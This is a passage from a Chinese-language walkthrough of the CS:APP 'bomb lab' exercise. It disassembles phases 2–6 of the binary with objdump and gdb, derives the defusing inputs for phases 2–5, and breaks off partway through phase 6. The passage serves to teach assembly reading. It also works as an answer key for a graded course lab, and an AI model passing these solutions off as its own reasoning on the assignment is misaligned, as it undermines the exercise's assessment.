	400e4e: e8 4b 06 00 00        callq  40149e <read_line>
  400e53: 48 89 c7              mov    %rax,%rdi
  400e56: e8 a1 00 00 00        callq  400efc <phase_2>
```

```r
0000000000400efc <phase_2>:
  400efc: 55                    push   %rbp
  400efd: 53                    push   %rbx
  400efe: 48 83 ec 28           sub    $0x28,%rsp
  400f02: 48 89 e6              mov    %rsp,%rsi
  400f05: e8 52 05 00 00        callq  40145c <read_six_numbers>
  400f0a: 83 3c 24 01           cmpl   $0x1,(%rsp)
  400f0e: 74 20                 je     400f30 <phase_2+0x34>
  400f10: e8 25 05 00 00        callq  40143a <explode_bomb>
  400f15: eb 19                 jmp    400f30 <phase_2+0x34>
  400f17: 8b 43 fc              mov    -0x4(%rbx),%eax
  400f1a: 01 c0                 add    %eax,%eax
  400f1c: 39 03                 cmp    %eax,(%rbx)
  400f1e: 74 05                 je     400f25 <phase_2+0x29>
  400f20: e8 15 05 00 00        callq  40143a <explode_bomb>
  400f25: 48 83 c3 04           add    $0x4,%rbx
  400f29: 48 39 eb              cmp    %rbp,%rbx
  400f2c: 75 e9                 jne    400f17 <phase_2+0x1b>
  400f2e: eb 0c                 jmp    400f3c <phase_2+0x40>
  400f30: 48 8d 5c 24 04        lea    0x4(%rsp),%rbx
  400f35: 48 8d 6c 24 18        lea    0x18(%rsp),%rbp
  400f3a: eb db                 jmp    400f17 <phase_2+0x1b>
  400f3c: 48 83 c4 28           add    $0x28,%rsp
  400f40: 5b                    pop    %rbx
  400f41: 5d                    pop    %rbp
  400f42: c3                    retq
```

```r
000000000040145c <read_six_numbers>:
  40145c: 48 83 ec 18           sub    $0x18,%rsp
  401460: 48 89 f2              mov    %rsi,%rdx
  401463: 48 8d 4e 04           lea    0x4(%rsi),%rcx
  401467: 48 8d 46 14           lea    0x14(%rsi),%rax
  40146b: 48 89 44 24 08        mov    %rax,0x8(%rsp)
  401470: 48 8d 46 10           lea    0x10(%rsi),%rax
  401474: 48 89 04 24           mov    %rax,(%rsp)
  401478: 4c 8d 4e 0c           lea    0xc(%rsi),%r9
  40147c: 4c 8d 46 08           lea    0x8(%rsi),%r8
  401480: be c3 25 40 00        mov    $0x4025c3,%esi
  401485: b8 00 00 00 00        mov    $0x0,%eax
  40148a: e8 61 f7 ff ff        callq  400bf0 <__isoc99_sscanf@plt>
  40148f: 83 f8 05              cmp    $0x5,%eax
  401492: 7f 05                 jg     401499 <read_six_numbers+0x3d>
  401494: e8 a1 ff ff ff        callq  40143a <explode_bomb>
  401499: 48 83 c4 18           add    $0x18,%rsp
  40149d: c3                    retq
```

可以看到 `phase_2` 调用了 `read_six_numbers`

```r
rdi 保存我们输入的字符串内容的首地址
rsp 传给 rsi 作为 read_six_numbers 的参数
即 rsi = rsp(phase_2)

之后调用 read_six_numbers
此时 rdx = rsi = rsp(phase_2)

sscanf(s,"%d...", &a,...);

我们会发现
rdi 不变
esi = 0x4025c3
rdx = rsi = rsp(phase_2)
rcx = rsi + 4
r8 = rsi + 8
r9 = rsi + c(12)

  esi = 0x4025c3 其实是 sscanf 的第一个参数
  (gdb) x/s 0x4025c3
  0x4025c3: "%d %d %d %d %d %d"

第5、6参数：
rsp 是 read_six_numbers 的栈指针，在其栈内存放地址映射到 phase_2 的栈里(rsi)
[rsp] = rsi + 0x10
[rsp + 8] = rsi + 0x14
```

对 `phase_2` 汇编代码阅读

```r
	400f0a: 83 3c 24 01           cmpl   $0x1,(%rsp)
  400f0e: 74 20                 je     400f30 <phase_2+0x34>
  400f10: e8 25 05 00 00        callq  40143a <explode_bomb>
  400f15: eb 19                 jmp    400f30 <phase_2+0x34>
  400f17: 8b 43 fc              mov    -0x4(%rbx),%eax
  400f1a: 01 c0                 add    %eax,%eax
  400f1c: 39 03                 cmp    %eax,(%rbx)
  400f1e: 74 05                 je     400f25 <phase_2+0x29>
  400f20: e8 15 05 00 00        callq  40143a <explode_bomb>
  400f25: 48 83 c3 04           add    $0x4,%rbx
  400f29: 48 39 eb              cmp    %rbp,%rbx
  400f2c: 75 e9                 jne    400f17 <phase_2+0x1b>
  400f2e: eb 0c                 jmp    400f3c <phase_2+0x40>
  400f30: 48 8d 5c 24 04        lea    0x4(%rsp),%rbx
  400f35: 48 8d 6c 24 18        lea    0x18(%rsp),%rbp
  400f3a: eb db                 jmp    400f17 <phase_2+0x1b>
  400f3c: 48 83 c4 28           add    $0x28,%rsp
  400f40: 5b                    pop    %rbx
  400f41: 5d                    pop    %rbp
  400f42: c3                    retq
```

```r
(%rsp) 参数一 = 1
只有当第一个参数是 1 时才会继续下去，此时会设置循环
rbx = %rsp + 0x4
rbp = rsp + 0x18  循环终止条件

%eax = -0x4(%rbx) 获取上一次的数字
add %eax, %eax    双倍数
cmp %eax,(%rbx)   判断是否相等
```

最终知道答案是

```
1 2 4 8 16 32
```

### phase_3

```r
main
	400e6a: e8 2f 06 00 00        callq  40149e <read_line>
  400e6f: 48 89 c7              mov    %rax,%rdi
  400e72: e8 cc 00 00 00        callq  400f43 <phase_3>
```

```r
0000000000400f43 <phase_3>:
  400f43: 48 83 ec 18           sub    $0x18,%rsp
  400f47: 48 8d 4c 24 0c        lea    0xc(%rsp),%rcx
  400f4c: 48 8d 54 24 08        lea    0x8(%rsp),%rdx
  400f51: be cf 25 40 00        mov    $0x4025cf,%esi
  400f56: b8 00 00 00 00        mov    $0x0,%eax
  400f5b: e8 90 fc ff ff        callq  400bf0 <__isoc99_sscanf@plt>
  400f60: 83 f8 01              cmp    $0x1,%eax
  400f63: 7f 05                 jg     400f6a <phase_3+0x27>
  400f65: e8 d0 04 00 00        callq  40143a <explode_bomb>
  400f6a: 83 7c 24 08 07        cmpl   $0x7,0x8(%rsp)
  400f6f: 77 3c                 ja     400fad <phase_3+0x6a>
  400f71: 8b 44 24 08           mov    0x8(%rsp),%eax
  400f75: ff 24 c5 70 24 40 00  jmpq   *0x402470(,%rax,8)
  400f7c: b8 cf 00 00 00        mov    $0xcf,%eax
  400f81: eb 3b                 jmp    400fbe <phase_3+0x7b>
  400f83: b8 c3 02 00 00        mov    $0x2c3,%eax
  400f88: eb 34                 jmp    400fbe <phase_3+0x7b>
  400f8a: b8 00 01 00 00        mov    $0x100,%eax
  400f8f: eb 2d                 jmp    400fbe <phase_3+0x7b>
  400f91: b8 85 01 00 00        mov    $0x185,%eax
  400f96: eb 26                 jmp    400fbe <phase_3+0x7b>
  400f98: b8 ce 00 00 00        mov    $0xce,%eax
  400f9d: eb 1f                 jmp    400fbe <phase_3+0x7b>
  400f9f: b8 aa 02 00 00        mov    $0x2aa,%eax
  400fa4: eb 18                 jmp    400fbe <phase_3+0x7b>
  400fa6: b8 47 01 00 00        mov    $0x147,%eax
  400fab: eb 11                 jmp    400fbe <phase_3+0x7b>
  400fad: e8 88 04 00 00        callq  40143a <explode_bomb>
  400fb2: b8 00 00 00 00        mov    $0x0,%eax
  400fb7: eb 05                 jmp    400fbe <phase_3+0x7b>
  400fb9: b8 37 01 00 00        mov    $0x137,%eax
  400fbe: 3b 44 24 0c           cmp    0xc(%rsp),%eax
  400fc2: 74 05                 je     400fc9 <phase_3+0x86>
  400fc4: e8 71 04 00 00        callq  40143a <explode_bomb>
  400fc9: 48 83 c4 18           add    $0x18,%rsp
  400fcd: c3                    retq
```

phase_3 会调用 `sscanf`

- 我们知道 `%rdi` 是输入的字符串的首地址
- `%esi=$0x4025cf`
- `0x8(%rsp)` 即 rdx，我们输入的第一个数字
- `0xc(%rsp)` 即 rcx，我们输入的第二个数字

```r
	400f47: 48 8d 4c 24 0c        lea    0xc(%rsp),%rcx
  400f4c: 48 8d 54 24 08        lea    0x8(%rsp),%rdx
  400f51: be cf 25 40 00        mov    $0x4025cf,%esi
  400f56: b8 00 00 00 00        mov    $0x0,%eax
  400f5b: e8 90 fc ff ff        callq  400bf0 <__isoc99_sscanf@plt>

(gdb) x/s 0x4025cf
0x4025cf:	"%d %d"
```

观察发现我们需要输入两个整数参数，第一个参数必须是无符号且是小于 `7` 的数，之后我们会看到 `jmpq   *0x402470(,%rax,8)` 跳转表，这需要我们去 `GDB` 中查看内容了

```r
	400f6a: 83 7c 24 08 07        cmpl   $0x7,0x8(%rsp)
  400f6f: 77 3c                 ja     400fad <phase_3+0x6a>  ;bomb!
  400f71: 8b 44 24 08           mov    0x8(%rsp),%eax
  400f75: ff 24 c5 70 24 40 00  jmpq   *0x402470(,%rax,8)
```

不妨让 `rax = 1` ，然后查看内容，发现是跳转到 `0x00400fb9`

```r
(gdb) x/x 0x402470
0x402470: 0x00400f7c

以 rax = 1 为例子 0x402470 + 8
(gdb) x/x 0x402478
0x402478: 0x00400fb9
```

此时跳转 400fb9，最终得到了输入的第二个整数参数是 `311`

- eax = 0x137 = 311
- eax = 0xc(%rsp)

```r
	400fb9: b8 37 01 00 00        mov    $0x137,%eax
  400fbe: 3b 44 24 0c           cmp    0xc(%rsp),%eax
  400fc2: 74 05                 je     400fc9 <phase_3+0x86>
  400fc4: e8 71 04 00 00        callq  40143a <explode_bomb>
  400fc9: 48 83 c4 18           add    $0x18,%rsp
  400fcd: c3                    retq
```

### phase_4

在 main 中，rdi 为调用 phase_4 函数的参数，rdi 是我们输入的字符串的首地址

```r
main
	400e86: e8 13 06 00 00        callq  40149e <read_line>
  400e8b: 48 89 c7              mov    %rax,%rdi
  400e8e: e8 79 01 00 00        callq  40100c <phase_4>
```

phase_4

```r
000000000040100c <phase_4>:
  40100c: 48 83 ec 18           sub    $0x18,%rsp
  401010: 48 8d 4c 24 0c        lea    0xc(%rsp),%rcx
  401015: 48 8d 54 24 08        lea    0x8(%rsp),%rdx
  40101a: be cf 25 40 00        mov    $0x4025cf,%esi
  40101f: b8 00 00 00 00        mov    $0x0,%eax
  401024: e8 c7 fb ff ff        callq  400bf0 <__isoc99_sscanf@plt>
  401029: 83 f8 02              cmp    $0x2,%eax
  40102c: 75 07                 jne    401035 <phase_4+0x29>
  40102e: 83 7c 24 08 0e        cmpl   $0xe,0x8(%rsp)
  401033: 76 05                 jbe    40103a <phase_4+0x2e>
  401035: e8 00 04 00 00        callq  40143a <explode_bomb>
  40103a: ba 0e 00 00 00        mov    $0xe,%edx
  40103f: be 00 00 00 00        mov    $0x0,%esi
  401044: 8b 7c 24 08           mov    0x8(%rsp),%edi
  401048: e8 81 ff ff ff        callq  400fce <func4>
  40104d: 85 c0                 test   %eax,%eax
  40104f: 75 07                 jne    401058 <phase_4+0x4c>
  401051: 83 7c 24 0c 00        cmpl   $0x0,0xc(%rsp)
  401056: 74 05                 je     40105d <phase_4+0x51>
  401058: e8 dd 03 00 00        callq  40143a <explode_bomb>
  40105d: 48 83 c4 18           add    $0x18,%rsp
  401061: c3                    retq
```

之后在 phase_4 函数里，我们又调用了 sscanf 函数

```r
sscanf(s,"%d...", &a,...);
它需要以下参数
  (rdi已经有了)
  esi = 0x4025cf
    (gdb) x/s 0x4025cf
    0x4025cf: "%d %d"
  rdx = %rsp + 0x8
  rcx = %rsp + 0xc
```

输入两个整数之后，`phase_4` 要求 `0x8(%rsp)` 即 `rdx` 要 ≤ `0xe(14)`

```r
	40102e: 83 7c 24 08 0e        cmpl   $0xe,0x8(%rsp)
  401033: 76 05                 jbe    40103a <phase_4+0x2e>
```

之后调用 func4 函数，在这之前设置参数

- edi = %rsp + 0x8 = rdx
- esi = 0x0
- edx = 0xe

```r
	40103a: ba 0e 00 00 00        mov    $0xe,%edx
  40103f: be 00 00 00 00        mov    $0x0,%esi
  401044: 8b 7c 24 08           mov    0x8(%rsp),%edi
  401048: e8 81 ff ff ff        callq  400fce <func4>
```

在查看 func4 汇编之前，我们先搞清楚 phase_4 不会爆炸的条件，要求 func4 返回时

- eax = 0
- M[%rsp + 0xc] = 0 即 `rcx = 0`

此时我们知道输入的第二个数字是 `0`

func4

```r
0000000000400fce <func4>:
  400fce: 48 83 ec 08           sub    $0x8,%rsp
  400fd2: 89 d0                 mov    %edx,%eax
  400fd4: 29 f0                 sub    %esi,%eax
  400fd6: 89 c1                 mov    %eax,%ecx
  400fd8: c1 e9 1f              shr    $0x1f,%ecx
  400fdb: 01 c8                 add    %ecx,%eax
  400fdd: d1 f8                 sar    %eax
  400fdf: 8d 0c 30              lea    (%rax,%rsi,1),%ecx
  400fe2: 39 f9                 cmp    %edi,%ecx
  400fe4: 7e 0c                 jle    400ff2 <func4+0x24>
  400fe6: 8d 51 ff              lea    -0x1(%rcx),%edx
  400fe9: e8 e0 ff ff ff        callq  400fce <func4>
  400fee: 01 c0                 add    %eax,%eax
  400ff0: eb 15                 jmp    401007 <func4+0x39>
  400ff2: b8 00 00 00 00        mov    $0x0,%eax
  400ff7: 39 f9                 cmp    %edi,%ecx
  400ff9: 7d 0c                 jge    401007 <func4+0x39>
  400ffb: 8d 71 01              lea    0x1(%rcx),%esi
  400ffe: e8 cb ff ff ff        callq  400fce <func4>
  401003: 8d 44 00 01           lea    0x1(%rax,%rax,1),%eax
  401007: 48 83 c4 08           add    $0x8,%rsp
  40100b: c3                    retq
```

阅读汇编代码，在此之前先设 `rdx` 为未知数

```r
0000000000400fce <func4>:
  400fce: 48 83 ec 08           sub    $0x8,%rsp
  400fd2: 89 d0                 mov    %edx,%eax ; eax = 14
  400fd4: 29 f0                 sub    %esi,%eax ; eax = 14 - 0 = 14
  400fd6: 89 c1                 mov    %eax,%ecx ; ecx = 14
  400fd8: c1 e9 1f              shr    $0x1f,%ecx ; ecx = 14 >> 31(逻辑) = 0
  400fdb: 01 c8                 add    %ecx,%eax ; eax = 14 + s = 14
  400fdd: d1 f8                 sar    %eax      ; eax = 14 >> 1(算术) = 7
  400fdf: 8d 0c 30              lea    (%rax,%rsi,1),%ecx  ; ecx = 7 + 0 = 7
  400fe2: 39 f9                 cmp    %edi,%ecx           ; 注意 edi = rdx
  400fe4: 7e 0c                 jle    400ff2 <func4+0x24> ; ecx <= edi 即 7 <= rdx
...
  400ff2: b8 00 00 00 00        mov    $0x0,%eax           ; eax = 0
  400ff7: 39 f9                 cmp    %edi,%ecx
  400ff9: 7d 0c                 jge    401007 <func4+0x39> ; ecx >= edi 即 7 >= rdx
...
  401007: 48 83 c4 08           add    $0x8,%rsp
  40100b: c3                    retq
```

很明显哈，退出条件是

- `7 <= rdx`
- `7 >= rdx`

此时让 `rdx = 7` 即可一次调用就能退出递归，同时让 `eax = 0`

最终答案为

```r
7 0
```

### phase_5

这道题说简单不简单，说难不难，难点在于能够理解里面 `phase_5` 在干什么。

main

```r
main
  400ea2: e8 f7 05 00 00        callq  40149e <read_line>
  400ea7: 48 89 c7              mov    %rax,%rdi
  400eaa: e8 b3 01 00 00        callq  401062 <phase_5>
```

在 main 中，rdi 为调用 phase_5 函数的参数，rdi 是我们输入的字符串的首地址

在 `phase_5` 中，这段应该是溢出检测

```r
	40106a: 64 48 8b 04 25 28 00  mov    %fs:0x28,%rax  ; 金丝雀值
  401071: 00 00 
  401073: 48 89 44 24 18        mov    %rax,0x18(%rsp)
...
  4010d9: 48 8b 44 24 18        mov    0x18(%rsp),%rax
  4010de: 64 48 33 04 25 28 00  xor    %fs:0x28,%rax
  4010e5: 00 00 
  4010e7: 74 05                 je     4010ee <phase_5+0x8c>
  4010e9: e8 42 fa ff ff        callq  400b30 <__stack_chk_fail@plt> ; 检测是否溢出
  4010ee: 48 83 c4 20           add    $0x20,%rsp
  4010f2: 5b                    pop    %rbx
  4010f3: c3                    retq
```

之后 phase_5 调用 string_length，查看输入的字符串长度是否等于 6，否则爆炸

```r
	401078: 31 c0                 xor    %eax,%eax
  40107a: e8 9c 02 00 00        callq  40131b <string_length>
  40107f: 83 f8 06              cmp    $0x6,%eax
```

```r
	4010a4: 48 83 c0 01           add    $0x1,%rax
  4010a8: 48 83 f8 06           cmp    $0x6,%rax

...
  4010ae: c6 44 24 16 00        movb   $0x0,0x16(%rsp)
  4010b3: be 5e 24 40 00        mov    $0x40245e,%esi
  4010b8: 48 8d 7c 24 10        lea    0x10(%rsp),%rdi
  4010bd: e8 76 02 00 00        callq  401338 <strings_not_equal>
  4010c2: 85 c0                 test   %eax,%eax
  4010c4: 74 13                 je     4010d9 <phase_5+0x77>
```

快速浏览后，发现需要循环6次，最后还要让 `eax = 0 <strings_not_equal>`

我们可以看到，字符串对比需要两个参数

- `esi = 0x440245e`
- `rdi = %rsp + 0x10`

```r
(gdb) x/s 0x40245e
0x40245e: "flyers"
```

也就需要让 `rdi = "flyers"`

阅读整个汇编代码

```r
0000000000401062 <phase_5>:
  401062: 53                    push   %rbx
  401063: 48 83 ec 20           sub    $0x20,%rsp
  401067: 48 89 fb              mov    %rdi,%rbx
  40106a: 64 48 8b 04 25 28 00  mov    %fs:0x28,%rax  ; 金丝雀?
  401071: 00 00 
  401073: 48 89 44 24 18        mov    %rax,0x18(%rsp)
  401078: 31 c0                 xor    %eax,%eax
  40107a: e8 9c 02 00 00        callq  40131b <string_length>
  40107f: 83 f8 06              cmp    $0x6,%eax
  401082: 74 4e                 je     4010d2 <phase_5+0x70>
  401084: e8 b1 03 00 00        callq  40143a <explode_bomb>
  401089: eb 47                 jmp    4010d2 <phase_5+0x70>
  40108b: 0f b6 0c 03           movzbl (%rbx,%rax,1),%ecx
  40108f: 88 0c 24              mov    %cl,(%rsp)
  401092: 48 8b 14 24           mov    (%rsp),%rdx
  401096: 83 e2 0f              and    $0xf,%edx
  401099: 0f b6 92 b0 24 40 00  movzbl 0x4024b0(%rdx),%edx
  4010a0: 88 54 04 10           mov    %dl,0x10(%rsp,%rax,1)
  4010a4: 48 83 c0 01           add    $0x1,%rax
  4010a8: 48 83 f8 06           cmp    $0x6,%rax
  4010ac: 75 dd                 jne    40108b <phase_5+0x29>
  4010ae: c6 44 24 16 00        movb   $0x0,0x16(%rsp)
  4010b3: be 5e 24 40 00        mov    $0x40245e,%esi
  4010b8: 48 8d 7c 24 10        lea    0x10(%rsp),%rdi
  4010bd: e8 76 02 00 00        callq  401338 <strings_not_equal>
  4010c2: 85 c0                 test   %eax,%eax
  4010c4: 74 13                 je     4010d9 <phase_5+0x77>
  4010c6: e8 6f 03 00 00        callq  40143a <explode_bomb>
  4010cb: 0f 1f 44 00 00        nopl   0x0(%rax,%rax,1)
  4010d0: eb 07                 jmp    4010d9 <phase_5+0x77>
  4010d2: b8 00 00 00 00        mov    $0x0,%eax
  4010d7: eb b2                 jmp    40108b <phase_5+0x29>
  4010d9: 48 8b 44 24 18        mov    0x18(%rsp),%rax
  4010de: 64 48 33 04 25 28 00  xor    %fs:0x28,%rax
  4010e5: 00 00 
  4010e7: 74 05                 je     4010ee <phase_5+0x8c>
  4010e9: e8 42 fa ff ff        callq  400b30 <__stack_chk_fail@plt>
  4010ee: 48 83 c4 20           add    $0x20,%rsp
  4010f2: 5b                    pop    %rbx
  4010f3: c3                    retq
```

就是要我们用我们输入的字符，取其低4位，然后 0x4024b0 + 低4位，得到另一个字符
接着取 dl(char字符) 然后把数据存放到 0x10(%rsp) 中，循环6次
最后判断 0x10(%rsp) == "flyers"
该过程需要建立一个 `映射机制` ，使其获得 "flyers"

对 0x4024b0 查看内容

```r
(gdb) x/30s 0x4024b0
0x4024b0 <array.3449>:  "maduiersnfotvbylSo you think you can stop the bomb with ctrl-c, do you?"
0x4024f8: "Curses, you've found the secret phase!"
0x40251f: ""
0x402520: "But finding it and solving it are quite different..."
0x402555: ""
0x402556: ""
0x402557: ""
0x402558: "Congratulations! You've defused the bomb!"
0x402582: "Well..."
0x40258a: "OK. :-)"
0x402592: "Invalid phase%s\n"
0x4025a3: "\nBOOM!!!"
0x4025ac: "The bomb has blown up."
0x4025c3: "%d %d %d %d %d %d"
0x4025d5: "Error: Premature EOF on stdin"
0x4025f3: "GRADE_BOMB"
0x4025fe: "Error: Input line too long"
0x402619: "%d %d %s"
0x402622: "DrEvil"
0x402629: "greatwhite.ics.cs.cmu.edu"
0x402643: "angelshark.ics.cs.cmu.edu"
0x40265d: "makoshark.ics.cs.cmu.edu"
0x402676: ""
0x402677: ""
0x402678: "Program timed out after %d seconds\n"
0x40269c: ""
0x40269d: ""
0x40269e: ""
0x40269f: ""
0x4026a0: "Error: HTTP request failed with error %d: %s"
```

建立映射

```r
(gdb) print /x "flyers"
$3 = {0x66, 0x6c, 0x79, 0x65, 0x72, 0x73, 0x0}
建立映射 0x4024b0 + offset（注意只能0~15偏移，因为只能取低4位作为偏移量）
f: 0x4024b0 + 9 = 0x4024B9
l: 0x4024b0 + 15 = 0x4024BF
y: 0x4024b0 + 14 = 0x4024BE
e: 0x4024b0 + 5 = 0x4024B5
r: 0x4024b0 + 6 = 0x4024B6
s: 0x4024b0 + 7 = 0x4024B7

(gdb) x/s 0x4024B9
0x4024b9 <array.3449+9>:  "fotvbylSo you think you can stop the bomb with ctrl-c, do you?"
(gdb) x/s 0x4024BF
0x4024bf <array.3449+15>: "lSo you think you can stop the bomb with ctrl-c, do you?"
(gdb) x/s 0x4024BE
0x4024be <array.3449+14>: "ylSo you think you can stop the bomb with ctrl-c, do you?"
(gdb) x/s 0x4024B5
0x4024b5 <array.3449+5>:  "ersnfotvbylSo you think you can stop the bomb with ctrl-c, do you?"
(gdb) x/s 0x4024B6
0x4024b6 <array.3449+6>:  "rsnfotvbylSo you think you can stop the bomb with ctrl-c, do you?"
(gdb) x/s 0x4024B7
0x4024b7 <array.3449+7>:  "snfotvbylSo you think you can stop the bomb with ctrl-c, do you?"

不妨[0100][xxxx]，其中[xxxx] = 上面的偏移量
I 0x49
O 0x4F
N 0x4E
E 0x45
F 0x46
G 0x47
IONEFG
```

最终答案。不得不说这个实验很有趣

```
IONEFG
```

### phase_6

这个 `phase_6` 很考验人的耐心，仔细阅读后理解代码的含义后就非常简单了

```r
main
  400ebe: e8 db 05 00 00        callq  40149e <read_line>
  400ec3: 48 89 c7              mov    %rax,%rdi
  400ec6: e8 29 02 00 00        callq  4010f4 <phase_6>
```

- phase_6.S
    
    ```r
    00000000004010f4 <phase_6>:
      4010f4: 41 56                 push   %r14
      4010f6: 41 55                 push   %r13
      4010f8: 41 54                 push   %r12
      4010fa: 55                    push   %rbp
      4010fb: 53                    push   %rbx
      4010fc: 48 83 ec 50           sub    $0x50,%rsp
      401100: 49 89 e5              mov    %rsp,%r13
      401103: 48 89 e6              mov    %rsp,%rsi
      401106: e8 51 03 00 00        callq  40145c <read_six_numbers>
      40110b: 49 89 e6              mov    %rsp,%r14
      40110e: 41 bc 00 00 00 00     mov    $0x0,%r12d
      401114: 4c 89 ed              mov    %r13,%rbp
      401117: 41 8b 45 00           mov    0x0(%r13),%eax
      40111b: 83 e8 01              sub    $0x1,%eax
      40111e: 83 f8 05              cmp    $0x5,%eax
      401121: 76 05                 jbe    401128 <phase_6+0x34>
      401123: e8 12 03 00 00        callq  40143a <explode_bomb>
      401128: 41 83 c4 01           add    $0x1,%r12d
      40112c: 41 83 fc 06           cmp    $0x6,%r12d
      401130: 74 21                 je     401153 <phase_6+0x5f>
      401132: 44 89 e3              mov    %r12d,%ebx
      401135: 48 63 c3              movslq %ebx,%rax
      401138: 8b 04 84              mov    (%rsp,%rax,4),%eax
      40113b: 39 45 00              cmp    %eax,0x0(%rbp)
      40113e: 75 05                 jne    401145 <phase_6+0x51>
      401140: e8 f5 02 00 00        callq  40143a <explode_bomb>
      401145: 83 c3 01              add    $0x1,%ebx
      401148: 83 fb 05              cmp    $0x5,%ebx
      40114b: 7e e8                 jle    401135 <phase_6+0x41>
      40114d: 49 83 c5 04           add    $0x4,%r13
      401151: eb c1                 jmp    401114 <phase_6+0x20>
      401153: 48 8d 74 24 18        lea    0x18(%rsp),%rsi
      401158: 4c 89 f0              mov    %r14,%rax
      40115b: b9 07 00 00 00        mov    $0x7,%ecx
      401160: 89 ca                 mov    %ecx,%edx
      401162: 2b 10                 sub    (%rax),%edx
      401164: 89 10                 mov    %edx,(%rax)
      401166: 48 83 c0 04           add    $0x4,%rax
      40116a: 48 39 f0              cmp    %rsi,%rax
      40116d: 75 f1                 jne    401160 <phase_6+0x6c>
      40116f: be 00 00 00 00        mov    $0x0,%esi
      401174: eb 21                 jmp    401197 <phase_6+0xa3>
      401176: 48 8b 52 08           mov    0x8(%rdx),%rdx
      40117a: 83 c0 01              add    $0x1,%eax
      40117d: 39 c8                 cmp    %ecx,%eax
      40117f: 75 f5                 jne    401176 <phase_6+0x82>
      401181: eb 05                 jmp    401188 <phase_6+0x94>
      401183: ba d0 32 60 00        mov    $0x6032d0,%edx
      401188: 48 89 54 74 20        mov    %rdx,0x20(%rsp,%rsi,2)
      40118d: 48 83 c6 04           add    $0x4,%rsi
      401191: 48 83 fe 18           cmp    $0x18,%rsi
      401195: 74 14                 je     4011ab <phase_6+0xb7>
      401197: 8b 0c 34              mov    (%rsp,%rsi,1),%ecx
      40119a: 83 f9 01              cmp    $0x1,%ecx
      40119d: 7e e4                 jle    401183 <phase_6+0x8f>
      40119f: b8 01 00 00 00        mov    $0x1,%eax
      4011a4: ba d0 32 60 00        mov    $0x6032d0,%edx
      4011a9: eb cb                 jmp    401176 <phase_6+0x82>
      4011ab: 48 8b 5c 24 20        mov    0x20(%rsp),%rbx
      4011b0: 48 8d 44 24 28        lea    0x28(%rsp),%rax
      4011b5: 48 8d 74 24 50        lea    0x50(%rsp),%rsi
      4011ba: 48 89 d9              mov    %rbx,%rcx
      4011bd: 48 8b 10              mov    (%rax),%rdx
      4011c0: 48 89 51 08           mov    %rdx,0x8(%rcx)
      4011c4: 48 83 c0 08           add    $0x8,%rax
      4011c8: 48 39 f0              cmp    %rsi,%rax
      4011cb: 74 05                 je     4011d2 <phase_6+0xde>
      4011cd: 48 89 d1              mov    %rdx,%rcx
      4011d0: eb eb                 jmp    4011bd <phase_6+0xc9>
      4011d2: 48 c7 42 08 00 00 00  movq   $0x0,0x8(%rdx)
      4011d9: 00 
      4011da: bd 05 00 00 00        mov    $0x5,%ebp
      4011df: 48 8b 43 08           mov    0x8(%rbx),%rax
      4011e3: 8b 00                 mov    (%rax),%eax
      4011e5: 39 03                 cmp    %eax,(%rbx)
      4011e7: 7d 05                 jge    4011ee <phase_6+0xfa>
      4011e9: e8 4c 02 00 00        callq  40143a <explode_bomb>
      4011ee: 48 8b 5b 08           mov    0x8(%rbx),%rbx
      4011f2: 83 ed 01              sub    $0x1,%ebp
      4011f5: 75 e8                 jne    4011df <phase_6+0xeb>
      4011f7: 48 83 c4 50           add    $0x50,%rsp
      4011fb: 5b                    pop    %rbx
      4011fc: 5d                    pop    %rbp
      4011fd: 41 5c                 pop    %r12
      4011ff: 41 5d                 pop    %r13
      401201: 41 5e                 pop    %r14
      401203: c3                    retq
    ```
    

代码太长了，先快速浏览一遍，看看怎么成立，怎么退出

```r
先 read_six_numbers
  401121: 76 05                 jbe    401128 <phase_6+0x34> 必须成立，不然爆炸

  401130: 74 21                 je     401153 <phase_6+0x5f>

  40116d: 75 f1                 jne    401160 <phase_6+0x6c> 不要满足

  401174: eb 21                 jmp    401197 <phase_6+0xa3>

  40119d: 7e e4                 jle    401183 <phase_6+0x8f>

  401195: 74 14                 je     4011ab <phase_6+0xb7>

  4011cb: 74 05                 je     4011d2 <phase_6+0xde>

  4011e7: 7d 05                 jge    4011ee <phase_6+0xfa> 必须成立，不然爆炸

  4011f5: 75 e8                 jne    4011df <phase_6+0xeb> 不满足时退出啦
```

接着根据这个顺序（不一定正确），去看汇编代码，构造数据，一步步试。。。

使用 `layout asm` 方便查看


```r
	4010f4: 41 56                 push   %r14
  4010f6: 41 55                 push   %r13
  4010f8: 41 54                 push   %r12
  4010fa: 55                    push   %rbp
  4010fb: 53                    push   %rbx
  4010fc: 48 83 ec 50           sub    $0x50,%rsp

  401100: 49 89 e5              mov    %rsp,%r13
  401103: 48 89 e6              mov    %rsp,%rsi
  401106: e8 51 03 00 00        callq  40145c <read_six_numbers>
	40110b: 49 89 e6              mov    %rsp,%r14
  40110e: 41 bc 00 00 00 00     mov    $0x0,%r12d
  401114: 4c 89 ed              mov    %r13,%rbp
  401117: 41 8b 45 00           mov    0x0(%r13),%eax
  40111b: 83 e8 01              sub    $0x1,%eax
  40111e: 83 f8 05              cmp    $0x5,%eax
  401121: 76 05                 jbe    401128 <phase_6+0x34>
  401123: e8 12 03 00 00        callq  40143a <explode_bomb>
  401128: 41 83 c4 01           add    $0x1,%r12d
  40112c: 41 83 fc 06           cmp    $0x6,%r12d
  401130: 74 21                 je     401153 <phase_6+0x5f>
  401132: 44 89 e3              mov    %r12d,%ebx
  401135: 48 63 c3              movslq %ebx,%rax
  401138: 8b 04 84              mov    (%rsp,%rax,4),%eax
  40113b: 39 45 00              cmp    %eax,0x0(%rbp)
  40113e: 75 05                 jne    401145 <phase_6+0x51>
  401140: e8 f5 02 00 00        callq  40143a <explode_bomb>
  401145: 83 c3 01              add    $0x1,%ebx
  401148: 83 fb 05              cmp    $0x5,%ebx
  40114b: 7e e8                 jle    401135 <phase_6+0x41>
  40114d: 49 83 c5 04           add    $0x4,%r13
  401151: eb c1                 jmp    401114 <phase_6+0x20>
```

阅读上面的代码，我们可以知道

```r
r14 = rsp
r13 = rsp
rsi = rsp

我们执行<read_six_numbers>后得到了6个数字
接着我们知道
r12 是外层循环 i，i < 6
ebx 是内存循环 i + 1, i + 1 < 5
大致逻辑是：
		每个参数 - 1 <= 5 都要成立，并且每个参数与后面的参数都要不同
num[i] <= 6

它的等价C代码是
for (int i = 0; i < 6; i ++) {
		if (num[i] - 1 > 5) boom;
		for (int j = i + 1; j < 5; j ++)
				if (num[i] == num[j]) boom;
}
```

之后继续阅读

```r
	401153: 48 8d 74 24 18        lea    0x18(%rsp),%rsi
  401158: 4c 89 f0              mov    %r14,%rax
  40115b: b9 07 00 00 00        mov    $0x7,%ecx
  401160: 89 ca                 mov    %ecx,%edx
